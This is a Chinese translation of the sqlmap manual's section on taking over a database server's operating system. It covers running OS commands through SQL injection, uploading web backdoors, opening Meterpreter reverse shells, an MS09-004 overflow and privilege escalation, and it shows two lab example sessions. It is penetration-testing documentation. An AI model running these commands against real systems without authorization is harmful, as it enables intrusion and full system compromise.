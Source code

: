 ## 接管操作系统

### 运行任意操作系统命令

选项和开关：`--os-cmd` 和 `--os-shell`

当后端 DBMS 为 MySQL，PostgreSQL 或 Microsoft SQL Server，并且当前会话用户拥有对数据库特定功能和相关架构特性的利用权限时，sqlmap 能够在**数据库所在服务器的操作系统上运行任意的命令**。

在 MySQL 和 PostgreSQL 中，sqlmap 可以上传（通过前面描述的文件上传功能）一个包含两个用户自定义函数——分别为 `sys_exec()` 和 `sys_eval()` 的共享库（二进制文件），然后在数据库中创建出两个对应函数，并调用对应函数执行特定的命令，并允许用户选择是否打印出相关命令执行的结果。在 Microsoft SQL Server 中，sqlmap 会利用 `xp_cmdshell` 存储过程：如果该存储过程被关闭了（Microsoft SQL Server 的 2005 及以上版本默认关闭），sqlmap 则会将其重新打开；如果该存储过程不存在，sqlmap 则会重新创建它。

当用户请求标准输出，sqlmap 将使用任何可用的 SQL 注入技术（盲注、带内注入、报错型注入）去获取对应结果。相反，如果无需标准输出对应结果，sqlmap 则会使用堆查询注入技术执行相关的命令。

这些技术的相关详情可见白皮书[通过高级 SQL 注入，对操作系统进行完全控制](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857)。

针对 PostgreSQL 目标的示例：

```
$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --\
os-cmd id -v 1

[...]
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: PostgreSQL
[hh:mm:12] [INFO] fingerprinting the back-end DBMS operating system
[hh:mm:12] [INFO] the back-end DBMS operating system is Linux
[hh:mm:12] [INFO] testing if current user is DBA
[hh:mm:12] [INFO] detecting back-end DBMS version from its banner
[hh:mm:12] [INFO] checking if UDF 'sys_eval' already exist
[hh:mm:12] [INFO] checking if UDF 'sys_exec' already exist
[hh:mm:12] [INFO] creating UDF 'sys_eval' from the binary UDF file
[hh:mm:12] [INFO] creating UDF 'sys_exec' from the binary UDF file
do you want to retrieve the command standard output? [Y/n/a] y
command standard output:    'uid=104(postgres) gid=106(postgres) groups=106(post
gres)'

[hh:mm:19] [INFO] cleaning up the database management system
do you want to remove UDF 'sys_eval'? [Y/n] y
do you want to remove UDF 'sys_exec'? [Y/n] y
[hh:mm:23] [INFO] database management system cleanup finished
[hh:mm:23] [WARNING] remember that UDF shared object files saved on the file sys
tem can only be deleted manually
```

sqlmap 还支持模拟 shell 输入，你可以输入任意命令以执行。对应的选项是 `--os-shell`，并且和 `--sql-shell` 一样，具备 TAB 补全和记录历史命令的功能。

如果堆查询没有被 Web 应用（例如：PHP 或 ASP 且后端 DBMS 为 MySQL）识别出来，并且 DBMS 为 MySQL，假如后端 DBMS 和 Web 服务器在同一台服务器上，则仍可以通过利用 `SELECT` 语句中的 `INTO OUTFILE`，在 Web 服务器根目录中的可写目录中创建 Web 后门，从而执行命令。sqlmap 支持上述功能并允许用户提供一个逗号分隔、用于指定根目录子目录的列表，从而尝试上传 Web 文件传输器和后续的 Web 后门。sqlmap 有以下几种语言的 Web 文件传输器和后门：

* ASP
* ASP.NET
* JSP
* PHP

###  有状态带外连接：Meterpreter & friends

开关和选项：`--os-pwn`，`--os-smbrelay`，`--os-bof`，`--priv-esc`，`--msf-path` 和 `--tmp-path`

当后端 DBMS 为 MySQL，PostgreSQL 或 Microsoft SQL Server 时，并且当前会话用户拥有对数据库特定功能和架构缺陷的利用权限时，sqlmap 能够在**攻击者机器与数据库服务器之间建立起有状态带外 TCP 连接**。根据用户的选择，该连接可以是交互式命令行、Meterpreter 会话、或者图形用户界面（VNC）会话。

sqlmap 依赖 Metasploit 创建 shellcode，并实现了四种不同的技术在数据库服务器上执行它。这些技术分别是：

* 通过 sqlmap 的用户自定义函数 `sys_bineval()` 在数据库**内存中执行 Metasploit shellcode**。MySQL 和 PostgreSQL 支持该技术，通过开关 `--os-pwn` 启用。
* 通过 sqlmap 的用户自定义函数 `sys_exec()` 向 MySQL 和 PostgreSQL 上传一个 Metasploit **独立 payload 传输器**并执行，对于 Microsoft SQL Server 则是使用 `xp_cmdshell()` 函数，通过开关 `--os-pwn` 启用。
* 通过进行从数据库服务器到攻击者机器（由 Metasploit `smb_relay` 服务侦听）之间的 UNC 路径请求的 **SMB 反射攻击**（[MS08-068](http://www.microsoft.com/technet/security/Bulletin/MS08-068.mspx)）来执行 Metasploit shellcode。当 sqlmap 运行于具有高权限（`uid=0`）的 Linux/Unix 上，且目标 DBMS 以 Windows 管理员身份运行时支持该技术，通过开关 `--os-smbrelay` 启用。
* 通过利用 **Microsoft SQL Server 2000 和 2005 的 `sp_replwritetovarbin` 存储过程堆缓冲区溢出**（[MS09-004](http://www.microsoft.com/technet/security/bulletin/ms09-004.mspx)）在数据库内存中执行 Metasploit shellcode。sqlmap 使用自己的 exploit，自动绕过 DEP 内存保护来触发漏洞，但它依赖 Metasploit 生成 shellcode，以便在成功利用时执行，通过开关 `--os-bof` 启用。

相关的技术详情可见于白皮书[通过高级 SQL 注入完全控制操作系统](http://www.slideshare.net/inquis/advanced-sql-injection-to-operating-system-full-control-whitepaper-4633857)和幻灯片[将控制由数据库层面拓展到操作系统](http://www.slideshare.net/inquis/expanding-the-control-over-the-operating-system-from-the-database)。

针对 MySQL 目标的示例：

```
$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/iis/get_int_55.aspx?\
id=1" --os-pwn --msf-path /software/metasploit

[...]
[hh:mm:31] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003
web application technology: ASP.NET, ASP.NET 4.0.30319, Microsoft IIS 6.0
back-end DBMS: MySQL 5.0
[hh:mm:31] [INFO] fingerprinting the back-end DBMS operating system
[hh:mm:31] [INFO] the back-end DBMS operating system is Windows
how do you want to establish the tunnel?
[1] TCP: Metasploit Framework (default)
[2] ICMP: icmpsh - ICMP tunneling
> 
[hh:mm:32] [INFO] testing if current user is DBA
[hh:mm:32] [INFO] fetching current user
what is the back-end database management system architecture?
[1] 32-bit (default)
[2] 64-bit
> 
[hh:mm:33] [INFO] checking if UDF 'sys_bineval' already exist
[hh:mm:33] [INFO] checking if UDF 'sys_exec' already exist
[hh:mm:33] [INFO] detecting back-end DBMS version from its banner
[hh:mm:33] [INFO] retrieving MySQL base directory absolute path
[hh:mm:34] [INFO] creating UDF 'sys_bineval' from the binary UDF file
[hh:mm:34] [INFO] creating UDF 'sys_exec' from the binary UDF file
how do you want to execute the Metasploit shellcode on the back-end database und
erlying operating system?
[1] Via UDF 'sys_bineval' (in-memory way, anti-forensics, default)
[2] Stand-alone payload stager (file system way)
> 
[hh:mm:35] [INFO] creating Metasploit Framework multi-stage shellcode 
which connection type do you want to use?
[1] Reverse TCP: Connect back from the database host to this machine (default)
[2] Reverse TCP: Try to connect back from the database host to this machine, on 
all ports 
between the specified and 65535
[3] Bind TCP: Listen on the database host for a connection
> 
which is the local address? [192.168.136.1] 
which local port number do you want to use? [60641] 
which payload do you want to use?
[1] Meterpreter (default)
[2] Shell
[3] VNC
> 
[hh:mm:40] [INFO] creation in progress ... done
[hh:mm:43] [INFO] running Metasploit Framework command line interface locally, p
lease wait..

                                _
                                | |      o
_  _  _    _ _|_  __,   ,    _  | |  __    _|_
/ |/ |/ |  |/  |  /  |  / \_|/ \_|/  /  \_|  |
|  |  |_/|__/|_/\_/|_/ \/ |__/ |__/\__/ |_/|_/
                        /|
                        \|


    =[ metasploit v3.7.0-dev [core:3.7 api:1.0]
+ -- --=[ 674 exploits - 351 auxiliary
+ -- --=[ 217 payloads - 27 encoders - 8 nops
    =[ svn r12272 updated 4 days ago (2011.04.07)

PAYLOAD => windows/meterpreter/reverse_tcp
EXITFUNC => thread
LPORT => 60641
LHOST => 192.168.136.1
[*] Started reverse handler on 192.168.136.1:60641 
[*] Starting the payload handler...
[hh:mm:48] [INFO] running Metasploit Framework shellcode remotely via UDF 'sys_b
ineval', please wait..
[*] Sending stage (749056 bytes) to 192.168.136.129
[*] Meterpreter session 1 opened (192.168.136.1:60641 -> 192.168.136.129:1689) a
t Mon Apr 11 hh:mm:52 +0100 2011

meterpreter > Loading extension espia...success.
meterpreter > Loading extension incognito...success.
meterpreter > [-] The 'priv' extension has already been loaded.
meterpreter > Loading extension sniffer...success.
meterpreter > System Language : en_US
OS              : Windows .NET Server (Build 3790, Service Pack 2).
Computer        : W2K3R2
Architecture    : x86
Meterpreter     : x86/win32
meterpreter > Server username: NT AUTHORITY\SYSTEM
meterpreter > ipconfig

MS TCP Loopback interface
Hardware MAC: 00:00:00:00:00:00
IP Address  : 127.0.0.1
Netmask     : 255.0.0.0



Intel(R) PRO/1000 MT Network Connection
Hardware MAC: 00:0c:29:fc:79:39
IP Address  : 192.168.136.129
Netmask     : 255.255.255.0


meterpreter > exit

[*] Meterpreter session 1 closed.  Reason: User exit
```

默认情况下，MySQL 在 Windows 上以 `SYSTEM` 身份运行，然而 PostgreSQL 在 Windows 和 Linux 上均以低权限用户 `postgres` 运行。Microsoft SQL Server 2000 默认以 `SYSTEM` 身份运行，而 Microsoft SQL 2005 和 2008 大部分情况下以 `NETWORK SERVICE` 身份运行，有时候以 `LOCAL SERVICE` 身份运行。

使用 sqlmap 的 `--priv-esc` 开关，可以通过 Metasploit `getsystem` 命令进行**数据库进程用户提权，该命令使用了包括 [kitrap0d](http://archives.neohapsis.com/archives/fulldisclosure/2010-01/0346.html) 在内的各种技术（[MS10-015](http://www.microsoft.com/technet/security/bulletin/ms10-015.mspx)）。
